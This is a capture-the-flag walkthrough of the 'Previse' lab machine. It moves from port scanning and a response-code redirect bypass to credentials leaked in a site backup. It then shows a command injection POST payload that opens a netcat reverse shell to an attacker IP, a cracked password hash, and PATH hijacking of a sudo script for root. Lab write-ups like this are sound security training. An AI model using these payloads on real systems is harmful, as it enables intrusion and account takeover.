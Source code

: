 # Previse

First as always, we start with `nmap`

```
# Nmap 7.92 scan initiated Tue Aug 24 13:27:08 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.11.104
Nmap scan report for box.ip (10.10.11.104)
Host is up, received conn-refused (0.063s latency).
Scanned at 2021-08-24 13:27:08 +07 for 10s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbdbnxQupSPdfuEywpVV7Wp3dHqctX3U+bBa/UyMNxMjkPO+rL5E6ZTAcnoaOJ7SK8Mx1xWik7t78Q0e16QHaz3vk2AgtklyB+KtlH4RWMBEaZVEAfqXRG43FrvYgZe7WitZINAo6kegUbBZVxbCIcUM779/q+i+gXtBJiEdOOfZCaUtB0m6MlwE2H2SeID06g3DC54/VSvwHigQgQ1b7CNgQOslbQ78FbhI+k9kT2gYslacuTwQhacntIh2XFo0YtfY+dySOmi3CXFrNlbUc2puFqtlvBm3TxjzRTxAImBdspggrqXHoOPYf2DBQUMslV9prdyI6kfz9jUFu2P1Dd
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnDbkb4wzeF+aiHLOs5KNLPZhGOzgPwRSQ3VHK7vi4rH60g/RsecRusTkpq48Pln1iTYQt/turjw3lb0SfEK/4=
|   256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIICTOv+Redwjirw6cPpkc/d3Fzz4iRB3lCRfZpZ7irps
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 24 13:27:18 2021 -- 1 IP address (1 host up) scanned in 10.48 seconds
```

Visiting the web service on port 80, we're redirected to `/login.php`. At this point, I probed for SQL injection and tried some weak credentials but to no avail, so I ran `gobuster`.


```
/.                    (Status: 200) [Size: 2224]
/accounts.php         (Status: 200) [Size: 2224]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 200) [Size: 933]
/download.php         (Status: 200) [Size: 2224]
/files.php            (Status: 200) [Size: 2224]
/footer.php           (Status: 200) [Size: 217]
/header.php           (Status: 200) [Size: 980]
/index.php            (Status: 200) [Size: 2224]
/js                   (Status: 200) [Size: 1149]
/login.php            (Status: 200) [Size: 2224]
/logout.php           (Status: 200) [Size: 2224]
/logs.php             (Status: 200) [Size: 2224]
/nav.php              (Status: 200) [Size: 1248]
/server-status        (Status: 403) [Size: 271]
/status.php           (Status: 200) [Size: 2224]
```

Of the found PHP pages, only `nav.php` doesn't redirect to `login.php` and is a complete page. The page has several links. However, all the links just seem to ultimately redirect to `/login.php`. For further investigation, we intercept the requests in Burp. However, just intercepting the requests don't reveal anything especially interesting, so we'll also intercept the responses. Among the intercepted responses, that of the request to the page "create account" seems to have the code for a complete page, but its response code is 302 Found which redirects us to `/login.php`. To view the actual page without redirection, we change the response code to be "200 OK" and forward it to the browser. With this, we can create a user an log in.

Having logged in, we can view more pages, of which the page "Files" (`files.php`) has the file "SITEBACKUP.ZIP" we can download. Unzipping the back up file, we get several PHP files, of which `config.php` contains database credentials. I tried using the found password to log into SSH, as well as the web site as another user, but that didn't work so we go back to the source code.

Looking at `logs.php`, we see an `exec` call.

```python
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

We can make a POST request, in which we use the paramater `delim` by ending the command and starting a new command to get us a reverse shell. Using the payload `nc ATK_IP ATK_PORT -e /bin/bash`, we make the POST request with `curl`

```sh
$ curl -X POST "http://box.ip/logs.php" --cookie "PHPSESSID=<REDACTED>" --data "delim=comma;nc+10.10.16.4+1337+-e+%2Fbin%2Fbash"
```

With this, we should have a reverse shell as `www-data`.

Going back to `config.php`, we log in as `root` and look around at the database "previse". With in "previse", there's the table "accounts" with salted and hashed passwords. With `hashcat` (mode 500), we're able to crack m4lwhere's password, giving us `ilovecody112235!`. We can then run `su m4lwhere` or SSH in.

With a shell as m4lwhere, we check our `sudo` privileges.

```sh
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We see that we're able to run `/opt/scripts/access_backup.sh` as root. Additionally, inside the script, `gzip` is being called *without* the full path, thus we can attempt PATH hijacking. To do this, we create a `gzip` file somewhere we can write to with a reverse shell to our machine. We then open a listener and run the following:

```sh
chmod +x gzip
export PATH=.:$PATH
sudo /opt/scripts/access_backup.sh
```

With this, we should have a root shell on the machine.
